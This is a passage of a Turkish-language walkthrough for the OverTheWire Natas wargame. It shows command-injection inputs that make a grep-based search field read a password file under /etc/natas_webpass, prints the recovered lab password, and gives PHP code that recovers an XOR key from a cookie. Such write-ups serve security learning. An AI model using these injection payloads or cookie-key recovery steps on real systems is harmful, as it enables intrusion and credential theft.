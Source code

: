 Bu levelda input alanı için filtreleme yapılmıştır. Fakat;

```terminal
. cat /etc/natas_webpass/natas10 #
-i a cat /etc/natas_webpass/natas10 #
n cat /etc/natas_webpass/natas10 #
a cat /etc/natas_webpass/natas10
```

komutlarından herhangi birisi istenilen sonucu verecektir. Son satırda da olduğu source code da yer alan grep için ikibi bir kaynak verilmiştir.

```terminal
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

![password](https://raw.githubusercontent.com/JohnGkmn/JohnGkmn.github.io/master/css/smashicons.png "U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK")


Natas Level 10 → Level 11
======

+ Username: natas11
+ URL:      http://natas11.natas.labs.overthewire.org

Hint;
- Cookies are protected with XOR encryption
- Sourcecode

source code içerisinde xor_encrypt fonksyionu ve "$tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);" satırlarına dikkat edildiğin, cookie kullanılarak **key** öğrenilebilmektedir. 

Cookie değeri (url dencode): ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=

<http://www.writephponline.com/> sitesi kullanılarak aşağıdaki kodlar ile

```terminal
function xor_encrypt($in) 
{
    $key  = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));
    $text = $in;
    $outText = '';
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) 
 {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
 }
    return $outText;
}
echo (xor_encrypt(base64_decode("ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw")));
```
